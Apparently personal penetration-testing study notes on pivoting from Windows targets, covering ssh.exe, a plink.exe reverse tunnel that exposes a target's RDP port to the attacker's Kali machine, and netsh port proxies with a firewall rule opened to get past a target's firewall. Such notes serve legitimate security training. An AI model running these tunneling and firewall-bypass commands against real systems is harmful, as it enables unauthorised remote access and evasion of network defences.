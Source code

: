 
### ssh.exe

openssh is on windows by default sine 2018 april. and available as feature on demand since windows 10 fall.

windows with ssh installed have: scp.exe, sftp.exe, ssh.exe.

`C:\Windows\System32\OpenSSH` - location of tools

`where ssh` - find ssh on the windows machine

`ssh tunnel with ssh.exe is done the same way as linux.`


### Plink

Plink is the command-line version of PuTTY. We may not always have ssh on windows targets, but putty and plink are common for network admins to have on their pcs for network admin tasks.

We can find plink.exe on our machine at /usr/share/windows-resources/binaries/plink.exe

```
plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 kaliip
```

when we cant respond to the confirmation
```
cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 kali_ip
```

the first 127.0.0.1:9833 - is our kali machine
the second 127.0.0.1:3389 - is the target rdp port we want access to

this method is useful when we cant access and open port because of firewall.


### Netsh

to use netsh we need administrative privileges to make any changes/use it.

we can set up a port forward using netsh like so:
```
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=forwarding_machine connectport=22 connectaddresss=target_ip
```

confirm connection:
```
netstat -anp TCP | find "2222"
```

```
netsh interface portproxy show all
```


If we cant access the listening port form our kali machine we may need to poke a hole in the firewall to get through:
```
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=forwarding_machine_ip localport=2222 action=allow
```

deleting the firewall rule:
```
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
```

deleting the portforward:
```
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```

